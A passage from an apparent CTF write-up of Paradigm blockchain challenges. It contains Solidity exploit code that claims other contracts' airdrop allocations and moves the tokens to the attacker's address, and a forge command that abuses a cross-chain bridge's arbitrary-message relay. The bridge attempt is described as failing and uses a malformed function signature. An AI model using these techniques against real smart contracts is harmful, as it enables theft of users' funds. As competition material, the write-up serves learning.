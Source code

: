 For the small amount of tokens, I claimed from [`BentoBox`](https://etherscan.io/address/0xF5BCE5077908a1b7370B9ae04AdC565EBd643966) which had 800 tokens. The rest of the exploit (theft?) is below:

```javascript
bytes32[] memory bentoproof = new bytes32[](18);            


bentoproof[0] = bytes32(0xcdc...b28);
...
bentoproof[17] = bytes32(0xc61...2f9);
distro.claim(116047, 0xF5BCE5077908a1b7370B9ae04AdC565EBd643966, 800000000000000000000, bentoproof);
IBento bento = IBento(0xF5BCE5077908a1b7370B9ae04AdC565EBd643966);
bento.deposit(token, address(bento), 0x60F2C887d59c388DB03c3738B04BfCc6e07F3D88, token.balanceOf(address(bento)), 0);
bento.withdraw(token, 0x60F2C887d59c388DB03c3738B04BfCc6e07F3D88, 0x60F2C887d59c388DB03c3738B04BfCc6e07F3D88, token.balanceOf(address(bento)), 0);
    
bytes32[] memory proof = new bytes32[](18);            
proof[0] = bytes32(0x1b9...08a);   
proof[17] = bytes32(0xc61...2f9);

distro.claim(86395, 0x97402249515994Cc0D22092D3375033Ad0ea438A, 9222053999999999885180928, proof);

ILiqZap liqzap =  ILiqZap(0x97402249515994Cc0D22092D3375033Ad0ea438A);          
IExchange exchange = IExchange(factory.createExchange(address(token)));    
token.approve(address(exchange), type(uint256).max);
exchange.addLiquidity{value: 0.001 ether}(0, 0.001 ether, type(uint256).max);  

liqzap.LetsInvest{value: 100 ether}(address(token), 0x60F2C887d59c388DB03c3738B04BfCc6e07F3D88);                                               
    
exchange.removeLiquidity(exchange.balanceOf(0x60F2C887d59c388DB03c3738B04BfCc6e07F3D88), 1, 1, type(uint256).max);
token.transfer(address(chal), token.balanceOf(0x60F2C887d59c388DB03c3738B04BfCc6e07F3D88));    

```

This challenge was super fun, and I thought it was a cool creative twist to the usual pwn chals :)


## Enterprise blockchain

So I didn't get the points for this challenge, but after skimming the solutions, it seems that I was close (or had the solution, but for some reason did something wrong somewhere else. idk, my brain was cooked by this stage 😂)

For this challenge, a relayer was set up between two chains and a simple bridge contract was deployed on both. The goal was to drain at least 10 of the 100 tokens on the bridge. The bridge allows anyone to send arbitrary messages to the other bridge, which makes the exploit straight forward. That is, send in a payload from L2 to L1 with an encoded transfer call to the token contract to drain the amount needed. I initially tried this with the following code:

```javascript
bytes memory data = abi.encodeWithSignature("transfer(address,value)", me, 1 wei);
bridge.sendRemoteMessage(78704, address(token), data);   
```
```bash
$ forge script script/EnterpriseSolve.s.sol --rpc-url http://enterprise-blockchain.challenges.paradigm.xyz:8545/<id>/l2 --broadcast -vvvv
```
